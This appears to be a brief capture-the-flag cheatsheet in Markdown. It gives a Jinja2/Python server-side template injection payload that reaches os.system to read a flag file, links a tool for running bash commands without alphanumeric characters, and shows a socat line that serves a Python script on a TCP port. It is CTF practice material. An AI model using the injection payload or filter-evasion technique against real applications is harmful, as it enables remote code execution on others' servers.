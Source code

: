 # Bash And CTF Cheatsheet

## Server Side Template Injection
```bash
{{ ().__class__.__base__.__subclasses__()[59].__init__.func_globals["linecache"].__dict__["os"].system('cat flag.txt') }}
```


## Bash Hack

### Bashfuck
Executing command without using alphanum characters

[BasFuck](https://github.com/trichimtrich/bashfuck)

### Socat

```bash
socat -d -d -d TCP4-LISTEN:1337,reuseaddr,fork EXEC:"python pwn.py" > /dev/null 2>&1 &
```